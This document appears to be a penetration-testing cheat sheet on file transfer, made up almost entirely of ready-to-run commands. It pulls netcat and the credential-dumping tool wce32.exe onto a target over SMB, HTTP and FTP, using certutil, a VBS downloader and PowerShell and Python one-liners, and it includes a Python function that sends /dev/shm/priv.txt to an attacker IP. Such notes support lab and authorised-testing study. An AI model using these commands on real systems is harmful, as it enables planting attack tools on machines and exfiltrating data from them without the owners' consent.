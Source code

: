 # File Transfer

## SMB
* On attacker: `impacket-smbserver -comment potato -debug -smb2support tmp /tmp`
* On target: `net use h: \\10.11.0.35\tmp` then simply navigate to `h:\`

## HTTP
* On attacker: `service apache2 start` (files in `/var/www/html/`)
* On target: `http://10.11.0.35/nc.exe`
* On attacker: `python -m SimpleHTTPServer 8001`
* On target: `http://10.11.0.35:8001/nc.exe`

### HTTP - tricky downloads
```certutil.exe -urlcache -split -f http://10.11.0.35/nc.exe butt.exe```

### HTTP - VBS Download 
```
' cat http_download.vbs | while read line; do echo "echo $line>> dl.vbs"; done
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.11.0.35/wce32.exe", False
xHttp.Send
with bStrm
.type = 1 '//binary
.open
.write xHttp.responseBody
.savetofile "wce32.exe", 2 '//overwrite
end with
```

### HTTP - PS1 download (v >= 3)
`iwr "http://10.11.0.221/nc.exe" -outfile "butt.exe"`

### HTTP - PS1 download (v < 3)
```
# echo cd $env:temp; $(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.221/nc.exe','butt.exe') >> dl.ps1
cd $env:temp; $(New-Object System.Net.WebClient).DownloadFile('http://10.11.0.221/nc.exe','butt.exe')
```

### HTTP - py download
```
import urllib
urllib.urlretrieve ("http://10.1.1.246/nc.exe", "nc.exe")
```

## FTP

### Windows - FTP - non-interactive
```
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
ftp -v -n -s:ftp.txt
```

## Other
### Python dump to netcat
```
import socket

def dump_file_to_netcat(host, port, content):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, int(port)))
    s.sendall(content.encode())
    s.shutdown(socket.SHUT_WR)
    while True:
        data = s.recv(4096)
        if not data:
            break
        print(repr(data))
    s.close()
dump_file_to_netcat("10.11.0.50",9999,open("/dev/shm/priv.txt").read())
```

## Encoding files
### Windows - base64
```
certutil.exe -encode inputFileName encodedOutputFileName
certutil.exe -decode encodedInputFileName decodedOutputFileName
```